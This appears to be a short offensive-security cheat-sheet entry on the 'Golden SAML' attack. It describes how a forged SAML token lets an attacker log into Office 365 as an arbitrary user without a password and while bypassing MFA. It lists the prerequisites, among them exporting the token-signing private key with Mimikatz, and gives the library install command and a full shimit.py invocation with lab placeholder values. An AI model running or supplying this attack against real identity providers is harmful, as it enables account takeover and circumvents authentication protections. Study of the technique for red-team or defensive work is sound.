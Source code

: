 # AWS - Golden SAML

### Using the extracted information, the tool will generate a forged SAML token as an arbitrary user that can then be used to authenticate to Office 365 without knowledge of that user's password. This attack also bypasses any MFA requirements.

## Requirements:

#### 1) Token-signing private key (export from personal store using Mimikatz)

#### 2) IdP public certificate

#### 3) IdP name

#### 4) Role name (role to assume)

## Commands:

 - python -m pip install boto3 botocore defusedxml enum python_dateutil lxml signxml (Install the proper python libraries)

 - python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012

